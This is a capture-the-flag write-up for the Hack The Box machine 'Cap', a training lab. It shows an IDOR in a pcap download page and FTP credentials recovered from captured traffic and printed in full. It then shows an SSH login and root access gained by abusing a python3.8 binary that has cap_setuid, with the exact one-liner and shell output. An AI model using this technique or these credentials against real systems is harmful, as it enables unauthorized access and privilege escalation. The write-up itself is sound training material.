




# Cap


## Introduction

**Cap** focuses primarily on network security, combining classic network traffic analysis techniques with web vulnerabilities such as IDOR (Insecure Direct Object Reference). The main challenge revolves around a web service that allows viewing .pcap files. By manipulating a parameter in HTTP requests, it is possible to access unintended files, revealing sensitive information such as credentials.

The main objective is to analyze the captured traffic to identify credentials or exploitation vectors, allowing initial access to the machine. Privilege escalation is then required to obtain the root flag by abusing lunyx's capabilities.

- Web vulnerability exploitation (IDOR)
- Network capture analysis (.pcap)
- Credential retrieval
- Local privilege escalation under Linux.

## Enumeration

Nmap scan



## Footprinting

Visite the web page and replace the found value with 0 and click on `download`



Analyse the file



The file contains an FTP connection with credentials

```
nathan:Buck3tH4TF0RM3!
```

## Initial Access

Connect to SSH with the credentials found

```sh
┌──(kali㉿dipeua-pc)-[~/HackTheBox/Cap]
└─$ ssh nathan@10.10.10.245                                               
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun May  4 08:40:33 UTC 2025

  System load:           0.0
  Usage of /:            38.1% of 8.73GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             254
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b6a7

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun May  4 08:33:34 2025 from 10.10.14.218
nathan@cap:~$ ls
snap  user.txt
nathan@cap:~$ 
```

## Privilege Escalation

**Using Capabilities**

Note that if the binary has the linux features `cap_setuid+ep` then it can be exploited

```sh
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:~# whoami
root
root@cap:~# 
```

